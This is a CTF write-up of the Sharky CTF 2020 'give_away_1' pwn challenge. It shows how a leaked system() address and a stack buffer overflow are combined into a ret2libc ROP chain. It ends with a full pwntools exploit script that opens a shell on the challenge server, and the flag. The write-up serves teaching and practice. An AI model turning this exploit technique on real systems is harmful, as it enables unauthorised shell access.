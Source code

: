 ```yaml
---
title: "Sharky CTF 2020: give_away_1 (Pwn)"
layout: post
date: 2020-05-12
tags:
- CTF
- writeup
- Sharky CTF 2020
- Pwn
comments: true
---
```


> Make good use of this gracious give away.
>
> Creator: Hackhim
>
> [give\_away\_1](/files/give_away_1)
>
> [libc-2.27.so](/files/libc-2.27.so)

As with most pwn challenges, let's start off by checking what kind of binary we're given.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_one$ file give_away_1

give_away_1: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=2b72e93281e97df94bf8362d5cf5a29f55accb8a, not stripped
```

Okay, it's just a 32 bit ELF binary. Let's run it to get a better idea of what it does.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_one$ ./give_away_1
Give away: 0xf7dbad10

```

Seems like it just prints a hex value and gets some input from us. Great. Now let's see how well it handles a large input.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_one$ python -c 'print "A"*1024' | ./give_away_1
Give away: 0xf7e18d10
Segmentation fault (core dumped)
```

Oh a [segmentation fault](https://en.wikipedia.org/wiki/Segmentation_fault), looks like we potentially have a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) vulnerability here. Let's open up the binary in IDA and see what further insights we can gather. Currently, we still don't know what that hex value is.

```
mov     eax, ds:(system_ptr - 1FBCh)[ebx]
push    eax
lea     eax, (aGiveAwayP - 1FBCh)[ebx] ; "Give away: %p\n"
push    eax             ; format
call    _printf ; printf("Give away: %p\n", system_ptr);
```

Oh wow is the hex value given to us actually a reference to `system`?

```
.got:00001FDC system_ptr      dd offset system ; DATA XREF: main+22↑r
```

Awesome, looks like we can combine this with the buffer overflow vulnerability and call `system("/bin/sh")` to get a shell. Where are we going to get the `/bin/sh` string from? We still haven't made use of the `libc-2.27.so` right?

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_one$ grep -obUaP "/bin/sh\x00" libc-2.27.so
1564879:/bin/sh
```

Bingo! So all we have to do is to calculate the address to `/bin/sh` and use that as a parameter for our call to `system`.

Consolidating all the information we have so far, we can conclude that the payload should probably look something like this:

```
<padding of ? bytes><address(system)><padding of 4 bytes><address("/bin/sh\x00")>
```

The only information we're lacking is the length of the padding. We can easily do this with the `cyclic` utility included with [pwndbg](https://github.com/pwndbg/pwndbg).

<script id="asciicast-wH3QaSI2bviasewd7uSz4E0Hd" src="https://asciinema.org/a/wH3QaSI2bviasewd7uSz4E0Hd.js" async></script>

> TL;DR: Padding is 36

Okay, great. Now all we need to do is to write script to solve this.

```python
#! /usr/bin/python2

from pwn import *

HOST = 'sharkyctf.xyz'
PORT = 20334
BINARY = './give_away_1'

elf = context.binary = ELF(BINARY)
libc = ELF('libc-2.27.so')

# Start connection

r = remote(HOST, PORT)

# Stage 1: Get system@libc

libc_system = int(r.recvline().split()[2][2:], 16)
log.info('Leaked libc_system: 0x{:x}'.format(libc_system))

# Stage 2: Build ROP Chain

libc.address = libc_system - libc.symbols.system
log.info('Calculated libc base address : 0x{:x}'.format(libc.address))

binsh = libc.search("/bin/sh\x00").next()
log.info('binsh: 0x{:x}'.format(binsh))

rop = ROP([libc, elf])
rop.system(binsh)

log.success('Generated ROP Chain')
log.success(rop.dump())

# Stage 3: Pwn

r.sendline(fit({ 36: rop.chain() }))

log.success('Sent payload')
log.progress('Spawning a shell...')

r.interactive()
```

Let's see it in action!

<script id="asciicast-329253" src="https://asciinema.org/a/329253.js" async></script>

Flag: `shkCTF{I_h0PE_U_Fl4g3d_tHat_1n_L3ss_Th4n_4_m1nuT3s}`

